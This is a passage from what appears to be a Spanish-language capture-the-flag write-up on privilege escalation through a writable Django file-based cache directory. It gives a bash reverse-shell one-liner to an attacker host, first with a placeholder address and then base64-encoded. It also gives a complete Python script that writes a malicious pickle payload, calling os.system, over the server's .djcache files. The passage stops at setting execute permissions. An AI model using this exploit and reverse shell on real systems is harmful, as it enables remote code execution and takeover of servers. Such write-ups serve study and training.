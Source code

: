 Vemos un directorio llamado `django_cache` que pertenece a `sandy` pero que es del grupo `www-data`, si entramos dentro del mismo no veremos ningun archivo ni nada, es muy interesante esto.

Sabiendo el nombre de este archivo y tambien sabiendo que hay un `Django` podemos deducir que puede tener una vulnerabilidad llamada `Django FileBasedCache Poisoning` vamos a utilizar un `Pickle Inseguro` (Cuando Django lee el caché, automáticamente **reconstruye los objetos** usando `pickle.loads()`), vamos a explotarla de esta forma:

Vamos a montarnos un script que genere este archivo malicioso que vamos a utilizar y que lo sobreescriba a la vez con los permisos necesarios.

```shell
echo '(bash >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1) &' | base64
```

Info:

```
KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjQvOTk5OSAwPiYxKSAmCg==
```

> createPickle.py

```python
import pickle  
import base64  
import os  
import time  
  
cache_dir = "/var/tmp/django_cache"  
cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjQvOTk5OSAwPiYxKSAmCg==|base64 -d|bash"  
  
# ---- Pickle payload ----
  
class RCE:  
    def __reduce__(self):  
        return (os.system, (cmd,),)  
  
payload = pickle.dumps(RCE())  
  
# ---- cache ----
  
for filename in os.listdir(cache_dir):  
    if filename.endswith(".djcache"):  
        path = os.path.join(cache_dir, filename)  
        try:  
            os.remove(path) 
        except:  
            continue  
        with open(path, "wb") as f:  
            f.write(payload)  # pickle payload        
        print(f"[+] Written payload to {filename}")
```

Establecemos los permisos de ejecuccion:
